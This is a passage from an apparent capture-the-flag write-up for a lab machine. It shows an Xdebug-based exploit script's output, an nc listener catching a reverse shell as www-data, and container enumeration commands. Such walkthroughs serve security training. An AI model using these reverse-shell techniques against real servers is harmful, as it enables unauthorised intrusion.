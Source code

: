 

Now, to get a shell, with nc listener going, run the script:



    root@kali# ./get_olympic_www_shell.py 443
    [!] Have nc listening on 443
    [*] Starting listener on 0.0.0.0:9000
    [+] Listening...
    [*] Sending request to tip xdebug
    [+] Connection received from 10.10.10.83:36262 on port 9000
    [*] Sending command get shell on port 443
    [*] Cleaning up. Should have callback



And get a callback:



    root@kali# nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.83] 48372
    ‍id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



We now have access to what we'll later find is called the the Create
container.

## Pivot to Olympia Container - Shell as icarus

### Enumeration of Create

It's quickly clear that this is a stripped down environment, likely a
container:



    ‍which python

    ‍which python3

    ‍hostname
    f00ba96171c5

    ‍ifconfig
    eth0      Link encap:Ethernet  HWaddr 02:42:ac:14:00:02
              inet addr:172.20.0.2  Bcast:172.20.255.255  Mask:255.255.0.0
              UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
              RX packets:3149050 errors:0 dropped:0 overruns:0 frame:0
              TX packets:2384513 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:0
              RX bytes:421530652 (402.0 MiB)  TX bytes:423441702 (403.8 MiB)

    lo        Link encap:Local Loopback
              inet addr:127.0.0.1  Mask:255.0.0.0
              UP LOOPBACK RUNNING  MTU:65536  Metric:1
              RX packets:36092 errors:0 dropped:0 overruns:0 frame:0
              TX packets:36092 errors:0 dropped:0 overruns:0 carrier:0
              collisions:0 txqueuelen:1
              RX bytes:2823261 (2.6 MiB)  TX bytes:2823261 (2.6 MiB)
